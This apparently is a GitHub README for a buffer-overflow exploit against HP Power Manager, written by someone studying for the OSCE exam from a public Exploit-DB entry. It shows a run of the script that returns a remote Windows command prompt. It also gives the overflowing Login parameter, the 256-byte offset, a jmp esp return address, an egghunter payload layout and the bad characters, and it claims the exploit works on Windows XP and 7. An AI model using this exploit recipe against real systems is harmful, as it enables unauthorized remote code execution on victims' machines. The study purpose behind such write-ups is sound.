 # HP-Power-Manager

    dev@ubuntu:~# python HPPowerManager.py 192.168.126.209
    [+] Trying to exploit 192.168.126.209
    [+] Sending payload
    [+] Trying to connect to target
    [+] Please wait to thirty seconds...

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\WINDOWS\system32>

An overflow in the Login of the post request  
    HtmlOnly=true&Login=admin{}&Password=admin&loginButton=Submit+Login

Sending 256 bytes of data will trigger this overflow. 
Was just studying the exploit originally created by ryujin , which you can find here: https://www.exploit-db.com/exploits/10099/  
Have to prep for that OSCE Exam yo!

There was also more bytes that could crash the service which leads to an SEH overflow, however, all the addresses had a nullbyte in them.   
Interestingly, used the nullbyte to help me find the amount of this crash as so:

    crash = "A" * 256
    crash += pack('<L', 0x7608BCCF)
    crash += "B" * 20
    crash += egghunter
    crash += '\x00'

Without the null, I wasn't able to hit my breakpoint after 256 bytes

Just used the same address as ryujin did: 

    Message=  0x7608bccf : jmp esp |  {PAGE_EXECUTE_READ} [MSVCP60.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v6.02.3104.0 (C:\Program Files\HP\Power Manager\MSVCP60.dll)
    
There were no bad characters with the exception of '\x00'

Useful Notes:  
256 bytes to crash the app  
0x7608bccf : jmp esp in MSVCP60.dll  
egghunter : haha  
badchars : \x00  

Tested and working on Windows XP, and Windows 7
